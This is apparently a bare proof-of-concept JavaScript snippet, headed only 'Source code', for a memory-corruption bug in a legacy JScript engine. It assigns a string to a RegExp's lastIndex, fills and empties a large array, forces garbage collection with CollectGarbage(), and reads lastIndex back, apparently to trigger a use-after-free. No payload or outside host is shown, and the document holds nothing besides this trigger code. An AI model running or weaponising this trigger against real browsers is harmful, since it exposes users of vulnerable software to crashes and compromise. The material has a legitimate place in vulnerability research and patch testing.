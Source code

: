 
 
alert('start');
 
var vars = [];
 
var r = new RegExp();
 
for(var i=0; i<20000; i++) {
  vars[i] = "aaaaa";
}
r.lastIndex = "aaaaa";
for(var i=20000; i<40000; i++) {
  vars[i] = "aaaaa";
}
 
vars.length = 0;
 
CollectGarbage();
 
alert(r.lastIndex);
 
alert('failed');
 
